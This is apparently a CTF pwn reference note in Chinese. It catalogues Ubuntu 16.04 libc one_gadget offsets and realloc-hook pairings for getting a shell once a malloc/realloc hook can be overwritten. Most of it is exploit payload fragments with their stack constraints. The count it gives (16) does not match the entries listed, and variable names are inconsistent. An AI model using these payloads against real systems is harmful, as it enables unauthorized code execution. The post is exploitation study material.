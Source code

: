 ```yaml
---
title: ONEPUNCH
date: 2019-12-10 17:09:50
tags: heap
---
```

探究过程就不写啦 不同环境可以用相同方式找gadget,总的来说解决了控制`hook`但是拿不到`shell`的问题
<!--more-->
# Res
ubuntu16.04 LTS的`onegadget`如下
```s
0x45216	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4	execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
可以推出以下16个联合攻击方式
```s
p64(0x4526a+base)+p64(libc.sym['realloc'])
  [rsp-0x40] == NULL  (*)

p64(0x4526a+base)+p64(2+libc.sym['realloc'])
  [rsp-0x38] == NULL  (*)

p64(0x4526a+base)+p64(4+libc.sym['realloc'])
  [rsp-0x30] == NULL  (*)

p64(0x4526a+base)+p64(6+libc.sym['realloc'])
  [rsp-0x28] == NULL  (*)

p64(0x4526a+base)+p64(11+libc.sym['realloc'])
  [rsp-0x20] == NULL  (*)

p64(0x4526a+base)+p64(12+libc.sym['realloc'])
  [rsp-0x18] == NULL  (*)

p64(0x4526a+base)+p64(16+libc.sym['realloc'])
  [rsp-0x10] == NULL  (时malloc前rbx为0) 

p64(0xf02a4+base)+p64(6+libc.sym['realloc'])
  [rsp-0x8] == NULL

p64(0xf1147+base)+p64(libc.sym['realloc'])
  [rsp] == NULL 

p64(0xf02a4+base)+p64(12+libc.sym['realloc'])
  [rsp+0x8] == NULL

p64(0xf02a4+base)+p64(16+libc.sym['realloc'])
  [rsp+0x10] == NULL 

p64(0xf1147+base)+p64(6+libc.sym['realloc'])
  [rsp+0x18] == NULL 

p64(0xf1147+base)+p64(11+libc.sym['realloc'])
  [rsp+0x20] == NULL 

p64(0x4526a+base)+p64(20+libc.sym['realloc'])
  [rsp+0x28] == NULL 

p64(0)+p64(0x4526a+base)
  [rsp+0x30] == NULL 

p64(0xf02a4+base)+p64(20+libc.sym['realloc'])
  [rsp+0x48] == NULL 

p64(0)+p64(0xf02a4+one)
  [rsp+0x50] == NULL 

p64(0xf1147+base)+p64(20+libc.sym['realloc'])
  [rsp+0x68] == NULL 

p64(0)+p64(0xf1147+one)
  [rsp+0x70] == NULL 
```

其他类似的像是`__getcwd+1645`只要满足[rsp-0x48]==0 就可以成功.

总结可知如果可以控制`realloc/malloc`的`hook`那么在上述环境下`one_gadget`其作用的条件为`[rsp-0x48]`到`rsp+0x30`内存在一个`qword`的值为0或者满足以下四者中的一个.
```s
[rsp+0x70] == NULL 
[rsp+0x68] == NULL 
[rsp+0x50] == NULL 
[rsp+0x48] == NULL 
```

可以看出其范围是非常广的,还有就是通过`call malloc`触发
```python
p64(0x4526a+base)+p64(16+libc.sym['realloc'])
  [rsp-0x10] == NULL  (也就是相当于call malloc时 rbx为0) 
```
基本都是可以的,因为一般题目`call malloc`都是在程序段,一般自己写的程序用编译之后不到`rbx`所以这个`gadget`灰常舒服.
这篇用于以后参照.
